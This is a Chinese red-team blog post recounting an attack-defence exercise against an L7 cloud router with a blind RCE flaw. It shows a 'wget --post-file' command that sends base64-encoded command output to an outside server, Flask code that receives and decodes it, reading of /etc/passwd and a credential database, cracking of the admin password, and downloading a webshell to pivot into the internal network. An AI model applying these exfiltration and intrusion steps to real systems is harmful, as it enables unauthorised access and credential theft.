 #  记录一次RCE无回显突破内网隔离   
原创 BeoutSea  RongRui安全团队   2024-12-22 17:21  
  
在攻防演练的时候常常遇到无回显的情况，怎么办呢？你还在用DNSLog外带内容？还是在用文件写入Web访问读取？  
  
在某次攻防演练我遇到了一个无回显的漏洞，DNSLog外带也不是很好用啊，无奈只能自己研究了  
# 发现碧海威科技-L7云路由  
  
首先通过公开的  
nday  
漏洞进行测试 是否存在  
  
漏洞  
POC  
可以查看 小羊安全屋的公众号  
  
https://mp.weixin.qq.com/s/oF1cydiyO92LVgJuyRKjvQ  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9ib8fvbibIVmYfJlDEAibudT4xicP4Hmr0TXEBHnYxkdYJDm7zOSxalIluw/640?wx_fmt=png&from=appmsg "")  
  
然后通过  
``  
执行命令带出来 自己服务器开启  
python-web  
发现有命令回显但是回显内容有问题，只显示第一行的内容  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9Eyofp0IDaHFVf5qibicQ0zq1ibdM6ibC3jWEuJCRia1v03SjotxHJj8zPAA/640?wx_fmt=png&from=appmsg "")  
  
尝试将执行的命令进行  
base64  
编码进行回显，发现没有回显内容，经过测试路由器被阉割了所有没有  
base64  
这个功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9qRNNYx7dfFuAvcrMM2hByiamBBic87cTcicpH3QC9PQkLA5jQl2ibdRpwA/640?wx_fmt=png&from=appmsg "")  
  
但是  
openssl  
是有的 通过  
openssl  
进行  
base64  
编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9TKfFMAHPwyIxlrY2wJBHvxnV585HtEakXHAJibtAwTUK9pJ6Fphdmag/640?wx_fmt=png&from=appmsg "")  
  
OK  
命令带出来了 拿到了  
id  
执行的内容，但是执行  
cat /etc/passwd  
的时候回显还是缺少东西。并且测试没有  
curl  
命令，  
web  
根目录没有写入  
webshell  
的权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9KrarEX9J39Hv2Sh1kRGuopgZRGV1279FiaxX5b73wHWFUepcYdJ7rew/640?wx_fmt=png&from=appmsg "")  
  
测试发现  
/tmp  
目录有写入权限 那我们可以通过  
wget  
的特性读取文件进行  
post  
发送  
  
首先将执行的命令  
base64  
编码写入到  
/tmp/1.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9tNic11KrEoc3sdBsyCVEbe1LugOnyxOg0MF01qZTnzmicmiajSKQkQiaibA/640?wx_fmt=png&from=appmsg "")  
  
然后编写  
Python  
脚本  
flask  
接收  
POST  
数据  
  
代码如下  
```
from flask import Flask, request
import base64

app = Flask(__name__)

def basedecode(encoded_data):
    padding = len(encoded_data) % 4
    if padding != 0:
        encoded_data += '=' * (4 - padding)
    try:
        decoded_data = base64.b64decode(encoded_data).decode('utf-8')
        print('-' * 50)
        print(decoded_data)
        print('-' * 50)
    except Exception as e:
        print("Error decoding Base64 data:", e)
        
@app.route('/', methods=['GET','POST'])
def handle_post():
    data = request.form
    result = '&'.join(f'{key}{value}'
    for key, value in data.items())
        result = result.replace('\n','')
        basedecode(result)
    return 'ok'
 
if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=80)
```  
  
通过  
python  
启动  
web  
  
在通过  
wget  
的特性读取  
/tmp/1.txt  
进行发送成功拿到回显内容  
  
wget –post-file=/tmp/1.txthttp://x.x.x.x/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9ArnAfufR11B8AUykDNfrhm5RN3qTGajJHPhbKm6nZgaCz5UGgYBrJw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9cUicLIzxEGk5nibCC9ib67Hzxa3mC2jHZLNneGNu3XzyO135BGHic31kGg/640?wx_fmt=png&from=appmsg "")  
  
但是还是不能写入  
webshell  
怎么办呢？通过探测后台有一个命令控制台是  
root  
权限  
  
Web登录  
去  
/usr/hls/etc/passwd.db  
查询数据库内容，改一下代码，读取  
passwd.db  
文件  
base64  
输出，通过  
python  
脚本解密成  
1.db  
在本地连接  
sqlite  
进入后台  
  
这个过程同上面差不多就不细说了。  
  
最后拿到  
md5  
加密的密码进行解密。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9o9Yfrc7pfYOp5RBuw4Z6cq9HAuJ9Kia25auIMPFicWcOfbIyz68ib6yVw/640?wx_fmt=png&from=appmsg "")  
  
通过公开的漏洞后台有命令控制台可以执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9o9X7MIibplaGoxv9fnkPzX3icdNSBvpR8MH7xUaNr5qEcodqZoCXAxOg/640?wx_fmt=png&from=appmsg "")  
  
cd  
到  
web  
根目录  
wget  
下载  
webshell  
进行连接，  
OK  
突破隔离进入内网，开干吧  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hY0hFWicNLlwjN6jkoIibWIefM67Yh4wM9ocsrgzqZWfVaia0kOiaSrB4JEJuKUdUaaq9ZzHPJYhcYSyF98zgMX9IQ/640?wx_fmt=png&from=appmsg "")  
  
感谢关注RongRui科技，技术交流私信拉群  
  
承接项目：软件开发、web开发、攻防演练、等保测评等  
  
进群+V：BeoutSea   （备注：进群）  
  
  
